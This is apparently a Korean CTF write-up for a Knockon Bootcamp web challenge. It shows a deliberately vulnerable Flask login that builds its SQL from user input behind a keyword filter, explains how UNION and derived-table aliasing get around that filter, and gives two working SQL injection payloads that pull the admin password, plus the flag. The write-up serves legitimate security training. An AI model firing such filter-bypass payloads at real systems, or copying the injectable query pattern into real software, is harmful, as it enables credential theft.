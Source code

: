```yaml
---
title: "[Writeup] Knockon Bootcamp - 4. "
categories:
  - Web Hacking
tags:
  - Writeup
  - Knockon Bootcamp
  - 
  - 
last_modified_at: 2024-09-01T00:10:00-05:00
published: true
---
```


|

## 문제

<http://war.knock-on.org:10034/>

![3.5 SQLi WAF 5 1](/assets/images/writeup/web-hacking/knock-on/3-5_SQLi_WAF_5_1.png)

![3.5 SQLi WAF 5 2](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_2.png)

![3.5 SQLi WAF 5 3](/assets/images/writeup/web-hacking/knock-on/1-1_SQL_Injection_3.png)

|

|

|

### 목표

---

필터링 로직을 우회하여 admin 계정의 비밀번호 알아내기

|

### 공격 기법

---

SQL Injection

- Filter Bypass

|

|

|

## 문제 코드

```python
from flask import Flask, request, render_template, redirect, url_for
from flask_sqlalchemy import SQLAlchemy
from sqlalchemy import text
import os
import string

app = Flask(__name__)

MYSQL_DATABASE = os.getenv("MYSQL_DATABASE")
MYSQL_USER = os.getenv("MYSQL_USER")
MYSQL_PASSWORD = os.getenv("MYSQL_PASSWORD")
MYSQL_HOST = "db"

app.config["SQLALCHEMY_DATABASE_URI"] = (
    f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
)
app.config["SQLALCHEMY_TRACK_MODIFICATIONS"] = False
db = SQLAlchemy(app)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(80), nullable=False)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/login", methods=["GET", "POST"])
def login():
    error = None
    query = None
    if request.method == "POST":
        filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
        username = request.form["username"].lower()
        password = request.form["password"].lower()

        for filter in filtering_list :
            if (filter in username) or (filter in password):
                return render_template("login.html", error='no Hack!')

        query = text(f"SELECT * FROM user WHERE username = '{username}' AND password = '{password}'")
        
        with db.engine.connect() as connection:
            result = connection.execute(query)
            user = result.fetchone()
        if user:
            return redirect(url_for("success", username=user[1]))
        else:
            error = "Invalid Credentials"
        return render_template("login.html", error=error, query=str(query))
    else :
        return render_template("login.html")

@app.route("/success")
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)

if __name__ == "__main__":
    db.create_all()
    app.run(debug=True, host="0.0.0.0", port=8080)
```

## 코드 분석

### login()

---

```sql
filtering_list = ['or', 'and', '"', '=', '<', '>', '\\', '-', '&', '|']
```

따옴표는 쓸 수 있음.

|

```sql
if user:
	return redirect(url_for("success", username=user[1]))
```

로그인 성공 시, `success`로 이동하며 `user[1]`을 넘겨줌

|

|

### success()

---

```sql
def success():
    username = request.args.get("username", "Unknown")
    flag = request.args.get("flag", "So.. what?")
    return render_template("success.html", username=username, flag=flag)
```

`success.html`를 렌더링 하면서 `username`과 `flag`를 넘겨주지만, `login()`함수에서는 `user[1]`변수만 넘겨줬기 때문에 변수의 값에 따라 `username` 혹은 `flag` 둘 중 하나만 화면에 나타남

즉, `user[1]`을 `username`이 아니라 flag인 `password`로 직접 변경해줘야 함

|

|

|

## 문제 풀이

```sql
' union select 1,2,3 #
```

쿼리를 입력하면 `user[1]` 부분인 2가 화면에 출력됨

|

```sql
union select 1,password,3 from user where username like 'admin'
```

실행하고자 하는 쿼리는 이런 형태임

|

```sql
union select 1,password,3 from (재구성테이블) where username like 'admin'
```

테이블을 재구성하여 **‘password’**의 **‘or’**을 우회해야 함

|

```sql
-- 테이블 재구성
(select 1, 2 as name, 3 as pw
union
select * from user)owo
```

|

```sql
union
select 1,pw,3 from (
	select 1, 2 as name, 3 as pw
	union
	select * from user)owo
where name like 'admin'
```

테이블 장착

|

|

|

## Exploit

### 방법 1

---

```sql
username: ' UNION SELECT 1, pw, 3 FROM (SELECT 1, 2 AS name, 3 AS pw UNION SELECT * FROM user)owo WHERE name like 'admin' #

password: 1
```

|

### 방법 2

---

```sql
username: ' UNION SELECT 1, (select pw from (select 1,2 as name,3 as pw union select * from user)owo where name like 'admin'), 3 #

password: 1
```

|

|

### FLAG

---

```python
K0{good_4ft3rn00n!}
```

|